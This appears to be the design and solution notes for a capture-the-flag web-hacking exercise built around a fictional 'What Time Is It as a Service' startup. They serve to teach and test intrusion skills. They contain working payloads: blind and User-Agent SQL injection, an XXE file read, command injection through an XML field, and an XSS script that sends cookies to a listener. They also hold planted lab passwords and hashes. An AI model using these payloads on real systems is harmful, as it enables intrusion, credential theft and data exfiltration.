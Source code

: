 * Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
*** Flags
    - Trouver la liste de email des employés pour du spear phishing
      - Il faut écrire un script de parsing
    - 
    
** Startup 2 — Dawg
   - Comme Bro dans Silicon Valley
   - Les users peuvent payer pour envoyer des « Super Dawg »
     - Et donc, carte de crédits disponibles

* Solutions
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (5=substr((select key_guid from apikeys limit 1,1),2,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>

** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
*** SQL login → logging:JF8KI4iYQWNbjWtn

** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** In Process Extract the banking info from /home/sysadmin/banking.txt.pgp
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Decrypted file content
    Bank account
    ------------
    SWIFT/BIC: FLAG-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** TODO Make mysql start automatically
** TODO Fix images in team (CFO/CTO)
** TODO Make API documentation in HTML
** TBD Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** WONTFIX Make the instructions HTML
** Privilege escalation from RCE
   Bash crontab running as sysadmin, banking file is owned by sysadmin
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** In Process Clean database before export
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** TODO Fix Dockerfile
** TODO Modify root password from ENV variable that will be set when container is RUN
* Notes
** PhantomJS
   Jane Harden jane.harden@wtiiaas.csg : SupeReLitePassWerd12--@@ : 5d3ee89d46ec1c979f63dc8d780841e6
* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 
